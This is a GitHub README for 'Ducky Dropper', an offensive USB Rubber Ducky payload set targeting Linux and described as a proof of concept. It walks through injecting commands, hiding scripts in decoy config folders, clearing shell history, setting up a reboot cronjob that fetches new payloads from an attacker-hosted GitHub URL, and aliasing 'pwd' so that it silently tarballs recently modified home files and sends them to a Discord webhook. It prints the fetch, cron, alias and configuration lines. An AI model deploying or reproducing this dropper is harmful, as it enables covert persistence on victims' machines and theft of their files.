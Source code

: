 <div align="center">
  
# Ducky Dropper


</div>

REM TITLE: Ducky_Dropper

REM AUTHOR: OSINTI4L (https://github.com/OSINTI4L)

REM TARGET OS: Linux (tested on Kali Linux release 2025.2)


## What is Ducky Dropper?
Ducky Dropper is a three part payload:
1. The DuckyScript Payload - [DS_payload.txt](https://github.com/OSINTI4L/DuckyScript-Payloads/blob/main/Payloads/Ducky_Dropper/DS_payload.txt)
2. The Bash script dropper - [cron_dropper.sh](https://github.com/OSINTI4L/DuckyScript-Payloads/blob/main/Payloads/Ducky_Dropper/cron_dropper.sh)
3. The Bash script payload - [payload.sh](https://github.com/OSINTI4L/DuckyScript-Payloads/blob/main/Payloads/Ducky_Dropper/payload.sh)

Ducky Dropper is **proof of concept** payload that uses the `DS_payload.txt` loaded onto the Hak5 USB Rubber Ducky to grab two Bash scripts (`cron_dropper.sh` and `payload.sh`) hosted on an attackers' Github. This uses Github (or could be configured with other hosting platforms) as a way to host payloads to be persistently dropped onto the target system. Once the payloads are downloaded to the target machine, the DuckyScript payload creates two hidden directories to store the respective scripts. It gives the scripts execution permissions, sets the dropper script (`cron_dropper.sh`) as a cronjob to be ran 60 seconds after machine boot, and then creates an alias for the `pwd` command to act as a trigger for payload script (`payload.sh`) execution. The terminal history is unset immediately after the terminal is popped to obfuscate the fact that code was injected, and then closes when done. Total injection time is ~4.5 seconds.

Ducky Dropper is designed so that once injected on the victim machine via the DuckyScript payload, when the target user enters the trigger command (in this case `pwd`, but can be changed, spoken about later), it will execute the `payload.sh` stored in `~/.confg`.

60 seconds after the machine is booted, the dropper becomes active. The dropper will first check to see if the machine is internet connected by sending a `ping` to hak5.org. If internet connectivity is *not* present, the dropper will exit and lay dormant until next boot. If internet connectivity *is* present, the dropper will grab a payload from the configured host site (Github) path. It will then calculate and compare an sha256sum checksum of the newly downloaded payload against the current payload present in `~/.confg` (the payload that is currently executed via the trigger command). If the checksums *match*, the newly downloaded payload is discarded (because it's the same as what is already present). If the checksums *do not* match the payload in `~/.confg` (the current payload) is replaced by the newly downloaded payload and given execution permissions. This allows for updated payloads to be grabbed via the dropper and executed by the trigger command. The attacker is able to maintain persistence on the target system and send it payloads of the attackers' choice to be grabbed on machine boot and executed by the trigger command.

**Configurations for all scripts/payloads can be changed, such as changing the trigger command, payload path for the dropper, etc, and is discussed below.**

---

**Testing Environment**

For this PoC I have set the DuckyScript payload to grab two Bash sripts (`cron_dropper.sh` and `payload.sh`) from Github. These are for demonstration purposes only to show how the payload works. The `payload.sh` is a Bash payload that when executed, checks for internet connectivity, looks for files inside of the users home directory that have been modified in the last 24 hours, if found tarballs them and exfiltrates them to a Discord webhook. If you would like to test this payload, you will need to manually add your Discord webhook to line 37 of the `payload.sh` after the DuckyScript payload has finished its injection. This can be accomplished with the following command: `sed -i '37c\https://discord.com/api/webhooks/your/webhook/here' ~/.confg/*`. This would normally be pre-configuerd in the payload prior to being hosted and grabbed so that when the payload is dropped it is fully configured; but it's not cause PoC.

After the Discord webhook has been configured, running the `pwd` command will silently exfiltrate modified files:
<img width="760" height="151" alt="t2" src="https://github.com/user-attachments/assets/2968a7b0-e95b-46a8-ba61-dc52b4296017" />

If you would like to test the dropper after having tested payload execution (aka manually adding your webhook and running `pwd`), reboot the system, after 60 seconds perform the following command: `cat ~/.confg/*`. You will see that the `payload.sh` has been replaced/updated by the dropper and that your webhook is no longer present.

Again, please remember that these provided payloads are PoC only, and to not use them in their "demo" configuration to attack or persist on target machines.

---

### DuckyScript Payload (DS_payload.txt)

1. The Ducky will pop a terminal, unset the history file, and then download the two aforementioned Bash scripts (`cron_dropper.sh` and `payload.sh`).
2. Creates two hidden directories inside of the users home folder (`.cronfg` and `.confg`) that place and host the aforementioned Bash scripts.
	- `.cronfg` is the directory responsible for hosting the `cron_dropper.sh` script.
	- `.confg` is the directory responsible for hosting the `payload.sh` script.
   
3. Grants execution permissions to both scripts.
4. Sets up `cron_dropper.sh` as a cronjob to be ran 60 seconds after the target machine is booted.
5. Creates an alias for `pwd` that will execute `pwd` with the expected output *and* executes the `payload.sh` script.
6. Closes terminal to obfuscate activity.

**Configuration:**
- The attackers' Github path to where the dropper is hosted must be defiend in line 8.
	- e.g., `DEFINE #CRON_DROPPER https://raw.githubusercontent.com/OSINTI4L/DuckyScript-Payloads/refs/heads/main/Payloads/Ducky_Dropper/cron_dropper.sh`
	
- The attackers' Github path to where the payload is hosted must be defiend in line 9.
	- e.g., `DEFINE #PAYLOAD https://raw.githubusercontent.com/OSINTI4L/DuckyScript-Payloads/refs/heads/main/Payloads/Ducky_Dropper/payload.sh`

- The trigger command by default is `pwd`, this can be altered by changing the command in line 30.
	- e.g., `STRINGLN alias pwd='pwd; (/home/$USER/.confg/*.sh > /dev/null 2>&1 & )'` (commands are changed here --> `pwd='pwd`)

---

### The Dropper (cron_dropper.sh)

1. The dropper allows attacker persistence to the target machine.
2. Grabs new payloads hosted via Github (or your hosting platform choice) to be passed to and executed by the trigger command.
3. Performs internet connectivity checks before executing the entirety of the payload.
4. Performs a checksum function to identify a change in payload.
5. Places new payload into the `~/.confg` directory to be executed by the trigger command.

**Configuration:**
- The frequency of the dropper "phoning home" for payloads can be altered in the DS_payload.txt. By default, it is sent to grab payloads 60 seconds after machine boot. If you would like to change this, it will need to be configured prior to initial DuckyScript payload injection. This can be altered on line 26 of the `DS_payload.txt` file.
	- e.g., `"@reboot sleep 60 && ~/.cronfg/cron_dropper.sh"` - change the `@reboot sleep 60` to the desired configuration.
	
- The source of where the dropper grabs payloads from cannot be changed post DuckyScript injection.
	- e.g., `wget -q -P /home/$user/.confg_tmp https://raw.githubusercontent.com/OSINTI4L/DuckyScript-Payloads/refs/heads/main/Payloads/Ducky_Dropper/payload.sh` - The dropper will always look to this URL path for new payloads. To create updated payloads, you would simply edit the code of `/payload.sh` on the hosting platform. It is important to note, do not change the URL path/file name after initial DuckyScript injection, this could break the hash function and cause issues.
	
---

### The Payload (payload.sh)
(demo payload)

 When the `pwd` command is entered, the following happens:
1. Checks for internet connectivity, if not present, exits, else:
2. Search for files in the target users home directory that have been modified in the last 24 hours.
3. If files, tarballs them, and then exfiltrates them to a Discord webhook.
As this is a demo payload, you will need to manually configure the Discord webhook (explained above in the testing environment section).

---

**A note on configuration of payload.sh and cron_dropper.sh**

It is important to note that whatever choice of naming convention used to name the payloads and dropper, they should be used consistently (so pick something you like). This is to prevent possible errors with the checksum process. As an example, if the intiially downloaded payload is `payload123.sh`, then all subsequent payloads grabbed by the dropper should also be named `payload123.sh`.

Also, if you would like to change the name of the dropper, the change must also be done in the DS_payload.txt `"@reboot sleep 60 && ~/.cronfg/cron_dropper.sh"` (line 26) to ensure the cronjob calls to the correct dropper.

All naming conventions of files should be use consistently accross all three payloads to ensure the prevention of errors.
